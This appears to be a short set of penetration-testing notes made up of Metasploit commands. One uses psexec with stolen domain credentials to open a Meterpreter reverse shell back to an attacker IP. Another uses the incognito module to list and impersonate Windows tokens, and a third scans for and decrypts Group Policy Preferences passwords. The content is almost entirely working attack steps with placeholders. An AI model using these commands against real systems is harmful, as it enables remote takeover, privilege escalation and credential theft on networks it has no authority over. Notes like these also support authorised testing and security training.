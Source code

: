 --  -
#### Get Shell
```bash
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp # depends
set rhosts <target ip>
set smbdomain <domain>
set smbuser <username>
set smbpass <password>
set lhost <attack ip>
run
```

^66f29a

#### Icognito Module
Module used for #token-impersonation
```bash
load icognito
list_tokens -u
impersonate_token <user>
```

^c51a79

#### GPP Attack
```bash
# will look for the file and cPassword field and decrypt it for you.
msfconsole
use auxiliary/scanner/smb_enum_gpp
```

^030f63
